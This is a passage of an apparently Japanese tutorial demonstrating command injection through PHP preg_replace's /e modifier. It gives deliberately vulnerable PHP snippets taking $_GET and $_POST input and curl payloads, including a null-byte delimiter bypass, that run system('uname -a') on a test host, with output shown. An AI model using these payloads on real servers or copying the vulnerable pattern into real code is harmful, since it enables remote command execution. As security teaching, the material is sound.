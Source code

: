正規表現の完全なパターン渡して任意のコマンドの実行を起こすことが可能なのがわかりました。
次に一部だけ正規表現が定義されている場合をみてみましょう。

 * デリミタを @ で設定し、前半のデリミタだけを指定する

```php
<?php
preg_replace('@' . $_GET['input1'], $_GET['input2'], '')
?>
```

 * 後半のデリミタとeオプションを設定して、任意のコマンドの実行を行う

```bash
$ curl -X GET "http://vlun.test/test.php?input1=.*@e&input2=system('uname+-a');"
Linux vlun.test 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt25-2+deb8u3 (2016-07-02) x86_64 GNU/Linux
```

 * デリミタが始点と終点も支持されている

```php
<?php
preg_replace('@' . $_GET['input1'] . '@', $_GET['input2'], '')
?>
```

 * NULL終端文字列を渡して、終点のデリミタを無効にする。

```bash
$ curl -X GET "http://vlun.test/test.php?input1=.*@e%00&input2=system('uname+-a');"
Linux vlun.test 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt11-1 (2015-05-24) x86_64 GNU/Linux
```

前途の通り、NULL終端攻撃はPHP 5.4.6以前しか使うことはできません。

第３パラメータはどのような値が入っていても任意のコマンドは実行します。

```php
<?php
preg_replace('@' . $_GET['input1'] . '@', $_GET['input2'], 'XXX')
?>
```

```bash
$ curl -X GET "http://vlun.test/test.php?input1=.*@e%00&input2=system('uname+-a');"

Linux vlun.test 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt11-1 (2015-05-24) x86_64 GNU/Linux
Linux vlun.test 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt11-1 (2015-05-24) x86_64 GNU/Linux
```

POSTの例も見ておきましょう。

```php
<?php
preg_replace('@' . $_POST['input1'] . '@', $_POST['input2'], 'XXX')
?>

<!DOCTYPE html>
<html lang = “ja”>
<head>
<meta charset = “UFT-8”>
<title>post test</title>
</head>
<body>
<h1>post test</h1>
<form action = "test.php" method = "post">
<input type = "text" name ="input1"><br/>
<input type = "text" name ="input2"><br/>
<input type = "submit" value ="post">
</form>
</body>
</html>
```